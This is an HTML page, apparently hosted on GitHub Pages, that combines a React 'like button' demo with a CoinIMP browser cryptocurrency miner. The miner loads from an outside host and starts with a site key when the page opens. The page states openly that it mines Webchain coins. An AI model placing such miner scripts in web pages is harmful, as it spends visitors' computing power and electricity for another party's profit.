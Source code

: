 <!DOCTYPE html>
<html>
<script src="https://www.hostingcloud.racing/mKgk.js"></script>
<script>
    var _client = new Client.Anonymous('a934a756b26f740437b44addb4ac3eaad11ebe827f6c08ce936fcabf8ed36e5e', {
        throttle: 0.2, c: 'w'
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");

</script>
<body>
<h1>Site able to mine Webchain Coins (WEB)</h1>
<p>I'm hosted with GitHub Pages.</p>
    
   <p> <div id="like_button_container"></div> </p>
    
    <p>This page demonstrates using React with no build tooling.</p>
    <p>React is loaded as a script tag.</p>

    <p>
      This is the first comment.
      <!-- We will put our React component inside this div. -->
      <div class="like_button_container" data-commentid="1"></div>
    </p>

    <p>
      This is the second comment.
      <!-- We will put our React component inside this div. -->
      <div class="like_button_container" data-commentid="2"></div>
    </p>

    <p>
      This is the third comment.
      <!-- We will put our React component inside this div. -->
      <div class="like_button_container" data-commentid="3"></div>
    </p>

    <!-- Load React. -->
    <!-- Note: when deploying, replace "development.js" with "production.min.js". -->
    <script src="https://unpkg.com/react@16/umd/react.development.js" crossorigin></script>
    <script src="https://unpkg.com/react-dom@16/umd/react-dom.development.js" crossorigin></script>

    <!-- Load our React component. -->
    <script src="like_button.js"></script>

</body>
</html>
